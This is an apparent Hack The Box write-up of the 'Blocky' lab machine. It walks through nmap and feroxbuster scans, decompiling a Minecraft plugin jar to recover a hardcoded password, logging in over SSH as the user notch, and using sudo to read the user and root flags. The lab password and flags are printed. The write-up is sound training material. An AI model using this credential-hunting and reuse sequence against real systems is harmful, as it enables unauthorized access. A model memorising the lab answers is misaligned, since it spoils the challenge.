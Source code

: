 ```yaml
---
description: >-
  We don’t know all that much about what’s out there. The farther you go, the
  less we know! - Outer Wilds
icon: block-brick
---
```


# Hack The Box - Blocky Writeup

We start with a lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.7.193           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 13:42 EDT
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.45% done; ETC: 13:44 (0:01:18 remaining)
Nmap scan report for 10.129.7.193
Host is up (0.77s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 105.28 seconds
```

Little bit  interesting, we have a 21. That's always worth checking out. However, attempting the anonymous login fails, so we move onto scanning the web port.

{% code overflow="wrap" fullWidth="true" %}
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://blocky.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
{% endcode %}

We get a lot of worpress items:

{% code overflow="wrap" fullWidth="true" %}
```
200      GET      326l     1144w    10330c http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/html5.js
200      GET        1l       61w     5483c http://blocky.htb/wp-includes/js/heartbeat.min.js
200      GET      387l     1284w    11809c http://blocky.htb/wp-includes/js/admin-bar.js
200      GET      117l      402w     3306c http://blocky.htb/wp-includes/js/wp-auth-check.js
200      GET        1l       37w     7413c http://blocky.htb/wp-includes/js/wp-lists.min.js
200      GET        1l       19w     3461c http://blocky.htb/wp-includes/js/customize-loader.min.js
200      GET        1l       64w    11072c http://blocky.htb/wp-includes/js/wplink.min.js
200      GET      673l     2233w    19303c http://blocky.htb/wp-includes/js/customize-preview-widgets.js
200      GET      247l      549w     5873c http://blocky.htb/wp-includes/js/customize-models.js
200      GET        6l     1435w    97184c http://blocky.htb/wp-includes/js/jquery/jquery.js
200      GET        1l       45w     5050c http://blocky.htb/wp-includes/js/customize-preview-nav-menus.min.js
```
{% endcode %}

outside of the wordpress items, we also see some other interesting stuff, such as a plugins directory with jar files:

{% code overflow="wrap" fullWidth="true" %}
```
200      GET        5l       19w     1362c http://blocky.htb/plugins/files/BlockyCore.jar
```
{% endcode %}

Also, since I haven't mentioned it, this is a Minecraft server hosting website type box:

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The plugins directory has two jars:

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I go ahead and pull them down. These jars can easily be decompiled with jd-gui by simply opening them in the program (jd-gui), and doing so reveals the password "8YsqfCTnvxAUeduzjNSXe22" in the BlockyCore.jar:

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Attempting to login as root fails. The "sendMessage" saying to get username hints that the username is not actually root. However, enumerating the website just a little more does reveal another username:

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Sounds fitting, let's try it out:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat /usr/share/wordlists/dirbuster/directory-list-1.0.txt | grep -i sparklays                       
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
eD491483aDEADBEEF3acc4e021b179b3
notch@Blocky:~$ 

```

Sweet. Let's do some quick enumeration. Pretty much the very first thing I always check, especially when I have the password, is sudo permissions. The second thing is a simple sudo su root.

{% code overflow="wrap" fullWidth="true" %}
```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ 
```
{% endcode %}

We can simply sudo su root and get the flag:

```
notch@Blocky:~$ sudo su root
root@Blocky:/home/notch# ls
minecraft  user.txt
root@Blocky:/home/notch# cat user^C
root@Blocky:/home/notch# cd /root
root@Blocky:~# cat ^C
root@Blocky:~# 
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt 
c5cbcd7c13DEADBEEF94393591014ec2
root@Blocky:~# 
```

This was an incredibly easy box. You simply needed to enumerate the web ports, see the jar files, decompile, brute force any users you have (only 2 in this case) with the password you gain, and then sudo su root.

The only hang-up I could see is locating the jar files. It definitely stresses the importance of using critical thinking, and tuning your web scanners. The critical thinking portion is simply knowing that Minecraft is a Java application, and havily utilizes jar files. However, I even saw them without specifically tuning for jars.

